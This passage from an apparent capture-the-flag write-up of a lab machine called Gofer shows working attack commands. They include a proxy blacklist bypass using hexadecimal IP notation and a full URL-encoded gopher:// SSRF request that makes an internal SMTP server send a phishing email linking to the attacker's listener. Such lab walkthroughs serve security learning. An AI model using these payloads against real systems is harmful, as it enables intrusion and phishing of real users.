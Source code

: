 And we'd get a callback on that paload
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.14.218 - - [13/Aug/2023 19:27:46] "GET /index.html HTTP/1.1" 200 -
```

Cool, so we just gotta do that for real now, but we know that 127 is not allowed
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://127.0.0.1:25'
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: /127 !</body></html>
```
[https://ma.ttias.be/theres-more-than-one-way-to-write-an-ip-address/](https://ma.ttias.be/theres-more-than-one-way-to-write-an-ip-address/)  
This article shows a few alternative ways to write an IP address, the one we'll use is the `Hexadecimal IP notation`
```bash
ping 0x7f000001
PING 0x7f000001 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.116 ms
^C
--- 0x7f000001 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1009ms
rtt min/avg/max/mdev = 0.074/0.095/0.116/0.021 ms
```

Trying for real for the first time
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%25200x7f000001%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2522http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2522%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
550 5.1.1 <jhudson@gopher.htb>: Recipient address rejected: 127.0.0.1
554 5.5.1 Error: no valid recipients
221 2.7.0 Error: I can break rules, too. Goodbye.
1
```
